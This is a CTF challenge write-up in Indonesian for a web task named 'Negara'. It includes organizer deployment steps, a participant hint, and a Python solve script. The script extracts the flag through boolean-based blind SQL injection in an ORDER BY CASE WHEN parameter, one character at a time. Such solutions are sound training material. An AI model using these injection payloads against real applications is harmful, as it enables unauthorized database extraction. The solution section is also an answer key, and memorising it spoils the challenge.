 # Negara


# Web_Challenge_Difficulties

Author: Ismail Hakim - twang#7040

Descriptions: Web 

# Untuk Panitia

Flag: FindITCTF{flag}

Deployment steps:

```python
cd web_negara_medium
./docker.sh
```

Solving steps:

1. Melihat fungsionalitas dari web
2. Adanya SQL injection pada order: dengan melakukan cek pada nilai yang selalu benar
`search=&order=CASE+WHEN+(1=1)+THEN+name+ELSE+numeric+END` 

dan nilai yang selalu salah `search=&order=CASE+WHEN+(1=2)+THEN+name+ELSE+numeric+END` . Terdapat perbedaan urutan dari tabel.
3. Membuat script untuk mengambil informasi flag pada tabel flag.

solve.py

```python
#!/usr/bin/env python3

import requests
import string

url = 'http://localhost:1337'
chars = string.ascii_lowercase + string.ascii_uppercase + '0123456789' + '{}_'
inject = "CASE WHEN (SELECT SUBSTR(flag,{},1) FROM flag)='{}' THEN name ELSE numeric END"

flag = ''
index = 1
char = 'f'

while True:
    for char in chars:
        req = requests.post(url, data= { 'search': '', 'order': inject.format(index, char) })
        res = req.text.split('\n')
        # print ("trying: ", char)
        if 'ALA' in res[123]:
            flag += char
            index+=1
            print(flag)
            break
    if flag[-1] == '}':
       break
```

# Untuk Peserta

Nama Problem: Negara

Deskripsi singkat: Referensi kode negara untuk umum. Cek aja di website kami.

Hint (jika perlu): Flag ada di dalam tabel flag
